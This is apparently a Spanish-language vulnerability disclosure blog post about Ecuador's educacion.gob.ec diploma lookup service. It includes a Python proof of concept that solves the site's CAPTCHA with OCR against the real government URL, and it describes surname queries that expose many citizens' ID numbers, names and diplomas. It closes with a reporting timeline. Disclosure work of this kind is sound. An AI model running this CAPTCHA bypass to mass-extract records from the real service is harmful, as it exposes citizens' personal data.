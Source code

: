 ```yaml
---
pubDatetime: 2025-06-16
title: Tus datos han sido filtrados | educacion.gob.ec
description: Ninguna inyección SQL fue necesaria, solo un apellido y el checkbox indicado para explotar el registro de títulos de bachilleres del Ecuador
featured: true
draft: false
author: eserror
tags:
  - filtracion
  - ecuador
---
```


Durante los últimos años el gobierno del Ecuador ha realizado esfuerzos por modernizar y digitalizar su infraestructura. Gracias a estas iniciativas, hoy en es posible realizar el apostillado, obtener una copia del título de bachiller u otros servicios que pueden ser encontrados en [www.gob.ec](https://www.gob.ec/).

Entre los nuevos servicios ofrecidos por el gobierno, la facilidad para obtener una copia del título de bachiller me llevó a pensar en las posibilidades, dada la cantidad cantidad y el tipo de información que posiblemente almacenaba, una falla de seguridad sería catastrófica.

Es así como descubrí una vulnerabilidad que afecta a la mayoría de los ecuatorianos, exponiendo cédulas, nombres completos, copia completa del título de bachiller, etc.

Es necesario un ataque sofisticado cuando un apellido y el checkbox indicado te pueden entregar toda la base de datos?

## Vulnerabilidades

1. Weak CAPTCHA

La plataforma del servicio de consulta de títulos de bachilleres, cuenta con un mecanismo para evitar repetidas solicitudes y abusos de bots, sin embargo, este mecanismo es muy debil por lo tanto fácil de vulnerar.

El siguiente código en python pretende ser una prueba de concepto para demostrar qué tan fácil es abusar del mecanismo de seguridad actual:

```python
import requests
from PIL import Image
import io
import re
import os
import easyocr
import numpy as np

try:
    reader = easyocr.Reader(['en'], gpu=True)
    EASYOCR_AVAILABLE = True
except Exception as e:
    print(f"ERROR: Failed to initialize EasyOCR: {e}")
    print("Please ensure 'easyocr' and 'torch', 'torchvision', 'torchaudio' are installed.")
    EASYOCR_AVAILABLE = False

def solve_captcha_ai(image_url, save_ocr_input_filename="image.png"):

    if not EASYOCR_AVAILABLE:
        print("EasyOCR is not available. Cannot proceed.")
        return None

    try:

        response = requests.get(image_url, stream=True, timeout=15)
        response.raise_for_status()
        image_bytes = response.content

        image_data_for_ocr = image_bytes

        try:
            if not save_ocr_input_filename:
                raise ValueError("Save filename is empty or None.")

            img_to_save = Image.open(io.BytesIO(image_data_for_ocr))
            img_to_save.save(save_ocr_input_filename)

        except ValueError as ve:
             print(f"Error preparing to save: {ve}")
        except Exception as e:

            print(f"Warning: Could not save the image being read ('{save_ocr_input_filename}'): {e}")
            print(f"Exception Type: {type(e)}")

        print("Processing image...")
        results = reader.readtext(image_data_for_ocr, detail=1, paragraph=False)

        if results:
            extracted_text = "".join([detection[1] for detection in results])
            cleaned_text = re.sub(r'[^a-zA-Z0-9]', '', extracted_text).strip()

            return cleaned_text
        else:
            print("EasyOCR did not detect any text in the image.")
            return ""

    except requests.exceptions.RequestException as e:
        print(f"Network error downloading image: {e}")
        return None
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
        import traceback
        traceback.print_exc()
        return None

captcha_url = "https://servicios.educacion.gob.ec/titulacion25-web/Captcha.jpg"
filename_for_ocr_input = "image.png"

extracted_text = solve_captcha_ai(captcha_url, save_ocr_input_filename=filename_for_ocr_input)
print(f"Result: {extracted_text}")

```

En la pantalla de fondo, se encuentra la imágen `image.png`, esta se genera automáticamente con caracteres aleatorios como medida para evitar solicitudes excesivas. En la imágen, se puede ver el resultado de la ejecución del script que intenta leer el texto de la imágen, dando como resultado la lectura del texto de la imágen.

Lo importe de haber encontrado una falla en este componente, es que me permite realizar solicitudes al servicio, sin ningún tipo de restricción, lo cual es útil para extraer los registros de la base de datos de forma menos dolorosa.

![](@assets/images/20250417200405.png)

2. Sensitive Data Exposure

Existen dos formas de consultar información sobre un usuario específico, usando un ID como cédula o apellidos.

Usando la opción de los apellidos, es la que más retorno de inversión proporciona ya que solo es necesario un apellido random, y la aplicación te entrega la información de todos las personas que tengan ese apellido, es decir que si uso como apellido zambrano, mostrará la información de todos los ecuatorianos con ese apellido.

![](@assets/images/20250417110345.png)

![](@assets/images/20250417110500.png)

### Conclusión

Cada día es más común enterarse en las noticias sobre nuevas filtraciones de datos personales, las cuales pasan desapercibidas como una notificación molesta en el teléfono. Se habla de un crecimiento e iniciativas como la Estrategia Nacional de Ciberseguridad o la Ley Orgánica de Protección de Datos Personales, sin embargo en la práctica nos encontramos en un estado de inactividad cuando de la realidad se trata.

Report Timeline

17-04-2025: Reporte Inicial a EcuCert</br>
22-05-2025: EcuCert responde alegando que no hay un programa responsable de divulgación de vulnerabilidades</br>
16-06-2025: Sin respuesta

